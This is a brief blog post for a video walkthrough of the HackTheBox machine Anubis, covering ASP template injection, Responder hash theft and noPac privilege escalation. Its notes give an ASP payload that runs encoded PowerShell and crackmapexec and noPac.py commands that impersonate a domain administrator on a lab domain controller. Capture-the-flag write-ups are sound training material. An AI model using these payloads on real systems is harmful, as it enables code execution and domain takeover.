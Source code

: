 ```yaml
---
categories:
- CTF
image:
  path: https://img.youtube.com/vi/pItffHaDAcU/0.jpg
layout: post
media_subpath: /assets/posts/2022-01-29-asp-windows-containers-responder-nopac-anubis-hackthebox
tags:
- active directory
- asp
- hackthebox
- responder
- windows
title: ASP, Windows Containers, Responder & NoPAC - Anubis @ HackTheBox
---
```


We are solving Anubis, a 50-point windows machine on HackTheBox which involves an ASP template injection, windows containers, and stealing hashes with Responder. Later we’ll escalate privileges using noPAC.

{% youtube pItffHaDAcU %}

## Notes

**ASP Injection**

```
<% CreateObject("WScript.Shell").Exec("powershell -enc ...") %>
```

**noPAC**

```
# https://github.com/Ridter/noPac
proxychains -q crackmapexec smb 172.31.48.1 -u localadmin -p 'Secret123!' --no-bruteforce
sudo date -s "$(curl -sI https://windcorp.htb -k | grep -i '^date:'|cut -d' ' -f2-)"
proxychains -q python3 noPac.py windcorp.htb/localadmin:'Secret123' -dc-ip 172.31.48.1 -dc-host EARTH -shell --impersonate administrator
```